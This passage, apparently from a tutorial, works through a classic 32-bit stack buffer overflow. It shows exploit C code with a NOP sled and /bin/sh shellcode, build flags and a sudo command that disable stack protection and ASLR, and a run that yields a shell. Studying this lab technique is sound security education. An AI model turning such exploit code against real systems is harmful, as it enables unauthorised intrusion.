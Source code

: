 ```c
    __asm__("movl %%esp, %0" : "=a" (res));
    return res;
}

int main(int argc, char **argv) {
    unsigned int address, i, offset = 0;
    char buffer[768];
    char *n[] = { PROGRAM, buffer, NULL };
    /* offset from base address */
    if (argv[1]) {
        offset = strtol(argv[1], NULL, 10);
    }
    /* address to jump to, stack pointer + offset */
    address = get_esp() + offset;
    fprintf(stderr, "using address %#010x\n", address);
    /* set all bytes in buffer to zero, no leftovers */
    memset(buffer, 0, sizeof(buffer));
    /* fill buffer with addresses, four byte at a time */
    for (i = 0; i < sizeof(buffer); i += 4) {
        *(unsigned int *)(buffer + i) = address;
    }
    /* nop-sled to fill half buffer with nop, 0x90 is hex for na */
    memset(buffer, 0x90, sizeof(buffer)/2);
    /* place shellcode after nop-sled, rest is filled with addresses */
    memcpy(buffer + sizeof(buffer)/2, shellcode, strlen(shellcode));
    /* execute program with buffer as argument */
    execve(n[0], n, NULL);
    perror("execve");
    exit(1);
}
```

Run exploit with `-fno-stack-protector` to disable the stack protection (sometimes enabled by default) and `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` to disable address space layout randomization (ASLR).

```bash
$ CFLAGS="-m32 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2"
$ cc $CFLAGS -o program program.c
$ cc $CFLAGS -o exploit exploit.c
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
$ ./exploit 1500
using address 0x0xbffffa34
buffer@0xbffff970: ...
bash$
```

For the curious, disassemble shellcode.

```bash
$ python -c 'print("\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43" + "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh")' | ndisasm -u - 
```
